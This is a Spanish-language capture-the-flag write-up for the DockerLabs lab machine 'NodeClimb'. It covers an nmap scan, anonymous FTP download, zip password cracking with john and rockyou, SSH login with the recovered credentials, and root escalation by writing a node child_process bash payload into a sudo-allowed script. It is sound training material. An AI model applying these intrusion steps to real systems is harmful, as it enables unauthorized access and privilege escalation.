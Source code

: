 # 🖥️ Writeup - NodeClimb 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip nodeclimb.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh nodeclimb.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p21,22 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-31 16:16 CET
Nmap scan report for 172.17.0.2
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 cd:1f:3b:2d:c4:0b:99:03:e6:a3:5c:26:f5:4b:47:ae (ECDSA)
|_  256 a0:d4:92:f6:9b:db:12:2b:77:b6:b1:58:e0:70:56:f0 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.91 seconds
```

El escaneo de puertos revela que el puerto `21` (FTP) está abierto y permite el inicio de sesión `anónimo`.

Nos conectamos al servicio `FTP`.

```bash
ftp 172.17.0.2
```
Info:
```
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:trihack): anonymous
331 Please specify the password.
Password: 
230 Login successful.
```

Encontramos un archivo `.zip` en el directorio raíz. Procedemos a descargar el archivo a nuestra máquina atacante.

```bash
ftp> get secretitopicaron.zip
```

Info:
```
local: secretitopicaron.zip remote: secretitopicaron.zip
229 Entering Extended Passive Mode (|||17333|)
150 Opening BINARY mode data connection for secretitopicaron.zip (242 bytes).
100% |***********************************|   242      191.51 KiB/s    00:00 ETA
226 Transfer complete.
242 bytes received in 00:00 (168.80 KiB/s)
```

Al intentar descomprimirlo en nuestra máquina, se nos solicita una contraseña.

```bash
unzip secretitopicaron.zip
```

Info:
```
Archive:  secretitopicaron.zip
[secretitopicaron.zip] password.txt password: 
   skipping: password.txt            incorrect password
```

# FUERZA BRUTA

Utilizamos la herramienta `zip2john` para extraer el `hash` de la contraseña del archivo.

```bash
zip2john secretitopicaron.zip > hash.txt
```

Info:
```
ver 1.0 efh 5455 efh 7875 secretitopicaron.zip/password.txt PKZIP Encr: 2b chk, TS_chk, cmplen=52, decmplen=40, crc=59D5D024 ts=4C03 cs=4c03 type=0
```

A continuación, procedemos a crackear el `hash`.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt
```

Info:
```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (secretitopicaron.zip/password.txt)     
1g 0:00:00:00 DONE (2025-10-31 16:18) 50.00g/s 204800p/s 204800c/s 204800C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Encontramos con éxito la contraseña: `password1`.

Con esta contraseña, ya podemos descomprimir el `.zip` y ver su contenido.

```bash
unzip secretitopicaron.zip
```

Info:
```
Archive:  secretitopicaron.zip
[secretitopicaron.zip] password.txt password: 
 extracting: password.txt
```

En su interior hallamos un archivo `password.txt`.

```
cat password.txt  
mario:laKontraseñAmasmalotaHdelbarrioH
```

Al leerlo, encontramos credenciales válidas para un usuario del sistema.
Utilizamos estas credenciales para autenticarnos exitosamente a través del puerto `22` (SSH).

```bash
ssh mario@172.17.0.2
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:
```
Matching Defaults entries for mario on f8c3e384992e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on f8c3e384992e:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

Observamos que, a través del binario `node`, podemos ejecutar el archivo `script.js` con privilegios de `root`.
El archivo `script.js` está vacío, pero tenemos permisos de escritura sobre él. 
Por lo tanto, procedemos a inyectar un `payload` de `JavaScript` que nos permita escalar privilegios.

```bash
nano script.js
```

Código:
```
require('child_process').spawn('/bin/bash', ['-p'], {stdio: 'inherit'});
```

Guardamos el archivo y, finalmente, ejecutamos el script con privilegios de `root`.

```bash
sudo /usr/bin/node /home/mario/script.js
```

Info:
```
root@f8c3e384992e:/home/mario# whoami
root
root@f8c3e384992e:/home/mario#
```

Ya somos root!